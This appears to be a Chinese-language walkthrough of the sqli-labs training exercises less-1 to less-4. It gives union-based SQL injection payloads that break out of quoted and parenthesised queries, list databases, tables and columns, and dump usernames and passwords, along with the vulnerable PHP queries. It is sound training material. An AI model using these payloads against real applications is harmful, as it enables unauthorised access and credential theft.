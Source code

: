 查询用户名，密码

```
-1' union select 1,group_concat(username,'@',password),3 from security.users--+
```

![image-20241202204655496](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241202204655496.png)

## less-2 联合注入

数字类型

```
1/1 成功回显
1/2 无回显
1/0 无回显
```

同样查用户民和密码

```
-1 union select 1,group_concat(username,'@',password),3 from security.users--+
```

## less-3 联合注入

```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

`')`进行闭合

```
1’) --+
1') and ('1')=('1
```

```
-1') union select 1,group_concat(schema_name),3 from information_schema.schemata --+

-1') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+

-1') union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+

-1') union select 1,group_concat(username,'@',password),3 from security.users --+
```

## less-4 联合注入

```php
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```
